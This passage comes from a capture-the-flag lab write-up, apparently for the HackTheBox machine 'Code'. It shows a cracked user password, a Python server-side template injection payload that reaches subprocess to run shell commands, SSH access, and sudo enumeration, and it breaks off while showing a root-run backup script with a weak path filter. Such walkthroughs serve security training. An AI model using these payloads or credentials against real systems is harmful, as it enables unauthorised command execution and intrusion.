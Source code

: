 _Successfully cracked martin's password hash_

**Credentials Found:**
```text
martin:nafeelswordsmaster
```

### User Flag

Before pivoting, we can extract the user flag directly through SSTI using Python's subprocess module:

```python
print(''.__class__.__base__.__subclasses__()[317]('cat /home/app-production/user.txt', shell=True, stdout=-1).communicate())
```

> **User Flag Captured!** ✅
{: .prompt-tip }

---

## Privilege Escalation

### SSH Access

With valid credentials, we can now SSH into the machine:

```bash
ssh martin@10.10.11.62
```

### Sudo Privileges Enumeration

```bash
martin@code:~$ sudo -l
```

**Output:**
```text
User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

Martin can execute `/usr/bin/backy.sh` as root without a password!

### Analyzing the Backup Script

Examining the `/usr/bin/backy.sh` script:

```bash
#!/bin/bash
if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
/usr/bin/echo "$updated_json" > "$json_file"

```